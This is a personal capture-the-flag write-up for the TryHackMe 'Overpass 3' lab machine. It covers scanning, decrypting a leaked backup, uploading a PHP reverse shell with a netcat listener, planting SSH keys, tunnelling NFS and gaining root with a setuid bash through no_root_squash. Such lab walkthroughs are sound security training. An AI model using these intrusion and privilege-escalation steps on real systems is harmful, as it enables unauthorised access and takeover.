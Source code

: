 # Overpass 3 - Hosting

This is my write-up for the TryHackMe machine at: [https://tryhackme.com/room/overpass3hosting](https://tryhackme.com/room/overpass3hosting)

Nmap Scan command:&#x20;

```
nmap -T4 -A 10.10.168.65 -oN nmapscan
```

Nmap output:

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-10 22:39 EDT
Nmap scan report for 10.10.168.65
Host is up (0.62s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
|_  256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Overpass Hosting
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.91 seconds
```

I noticed that they have 3 ports open. I went to the web (port 80) first to check it out:

![](<../../.gitbook/assets/image (338) (1) (1).png>)

There was no `/robots.txt` file. I then ran **gobuster** on the IP address:

```
gobuster dir --url http://10.10.168.65/  -w directory-list-lowercase-2.3-big.txt -t 40
```

About 4% of the gobuster search, I got the following output:

![](<../../.gitbook/assets/image (330) (1) (1).png>)

Going to the backups website, I saw this:

![](<../../.gitbook/assets/image (341) (1) (1).png>)

I then downloaded the file. There were two files in the zip file:

![](<../../.gitbook/assets/image (332) (1) (1) (1).png>)

Using [this write-up](https://musyokaian.medium.com/overpass-3-hosting-tryhackme-walkthrough-d77703a72495), I realized that I can decrupt the file with the private key I have:

```
gpg --import priv.key //import the key
gpg --decrypt CustomerDetails.xlsx.gpg > CustomerDetails.xlsx //output to new file
```

Since I am on Linux (Kali), I wanted to convert the file to a version that I would be able to view in. I ran the following command to convert the Excel file into a csv file, which I was able to read:

```
ssconvert CustomerDetails.xlsx newfile.csv
```

I was then able to see the contents of the file:

![](<../../.gitbook/assets/image (335).png>)

It seems to be the customers of the website, based on the context. We also have their username and password. I will try this in FTP, and my plan is that if the password does not work on FTP, then I will try SSH. In FTP, I got access using the credentials for "Par. A. Doxx":

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1).png>)

FTP seemed to only work for that user. The other passwords did not work in FTP. When I tried for SSH, the credentials did not work there either. I then went back to the same write-up above and then realized that I had to upload a php-reverse-shell. Going to [this GitHub page](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), I downloaded the reverse-shell script. In the script, I changed the IP address to my TryHackMe IP address. I then uploaded the file to the server:

![](<../../.gitbook/assets/image (326) (1).png>)

I then ran `nc -lvp 1234` on another terminal tab, and was listening for a connection. After visiting **http://10.10.168.65/php-reverse-shell.php**, I got a reverse shell:

![](<../../.gitbook/assets/image (325) (1) (1) (1).png>)

After being stuck for a while, I viewed [this write-up](https://www.aldeid.com/wiki/TryHackMe-Overpass-3-Hosting) in order to see where to go next. I used the command the author of the write-up used:

```
find / -type f -name "*flag*" -exec ls -l {} + 2>/dev/null
```

This gave me the following output:

![](<../../.gitbook/assets/image (323) (1) (1).png>)

This file had the flag in it:

![](<../../.gitbook/assets/image (328) (1) (1).png>)

I then downloaded Linpeas to my local machine using **wget**. I then pushed that to the server using an http server:

![](<../../.gitbook/assets/image (334) (1).png>)

![](<../../.gitbook/assets/image (342) (1) (1).png>)

I then ran linpeas on the remote machine. I then saw the following, when I also saw in other write-ups as well:

![](<../../.gitbook/assets/image (327) (1) (1).png>)

I then went back to the most recently mentioned write-up, in order to understand what I had to do next. Following [this write-up](https://shishirsubedi.com.np/thm/overpass3/), I uploaded my key to the remote server so I can connect in an easier method. Here are the commands I ran:

```
My machine: ssh-keygen -f paradox
My machine: cat paradox.pub
//Take the information inside the paradox.pub and copy it to the remote machine
Remote machine: echo "ssh-rsa ............" > .ssh/paradox
```

I was then able to ssh into the machine to the user paradox from my machine directly:

![](<../../.gitbook/assets/image (324) (1).png>)

After a long time of being stuck, I finally found a solution reading [this write-up](https://cryptichacker.github.io/posts/overpass3hosting/). My mistake was running the wrong command. The following is what worked for me:

```
ssh -i paradox -L 20049:127.0.0.1:2049  paradox@10.10.168.65
```

I changed 2049 before the IP to 20049, since I kept on getting errors that the port was already in use. I then ran the following command to mount the share to my local machine:

```
sudo mount -t nfs -o port=20049 localhost: nfs
```

If we change directory into the **nfs** folder, we can see the file system mounted there:

![](<../../.gitbook/assets/image (337) (1).png>)

I read the user flag. After that, the ssh authorized key I had uploaded to paradox earlier, I had not uploaded it to **.ssh/authorized\_keys** in the mounted directory. I then was able to SSH to the machine:

![](<../../.gitbook/assets/image (331) (1) (1) (1).png>)

I read up from [this write-up](https://cryptichacker.github.io/posts/overpass3hosting/) that I can now use the **no\_root\_squash** exploit, something that linpeas.sh had shown us earlier. I followed the following commands from the write-up to get it to work:

```
#In the mounted dir, as root user
cp /bin/bash ./
chmod +s bash

#In the remote machine as user james
./bash -p
```

This got me root user on the machine. I then got the root flag.

![](<../../.gitbook/assets/image (340) (1) (1) (1).png>)
